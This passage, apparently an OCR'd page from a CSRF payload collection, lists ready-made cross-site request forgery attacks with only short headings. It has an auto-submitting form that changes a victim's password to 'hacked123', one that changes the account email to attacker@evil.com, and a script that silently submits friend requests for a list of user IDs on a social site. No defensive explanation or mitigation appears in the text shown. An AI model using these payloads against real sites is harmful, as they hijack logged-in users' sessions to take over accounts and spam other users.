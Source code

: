 ### 2. 🔐 Account Takeover CSRF

#### Password Change Attack
```html
<!-- CSRF attack to change user password -->
<form id="password-change" action="https://target.com/change-password" method="POST">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
</form>

<script>
document.getElementById('password-change').submit();
</script>
```

#### Email Change Attack
```html
<!-- CSRF to change user email -->
<form id="email-change" action="https://target.com/update-email" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.getElementById('email-change').submit();
</script>
```

### 3. 👥 Social Engineering CSRF

#### Friend Request Spam
```html
<!-- CSRF to send friend requests to all users -->
<script>
var userIds = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10]; // Target user IDs

userIds.forEach(function(userId) {
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = 'https://social-app.com/add-friend';
    form.style.display = 'none';
    
    var input = document.createElement('input');
    input.type = 'hidden';
    input.name = 'user_id';
    input.value = userId;
    
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
});
</script>
```
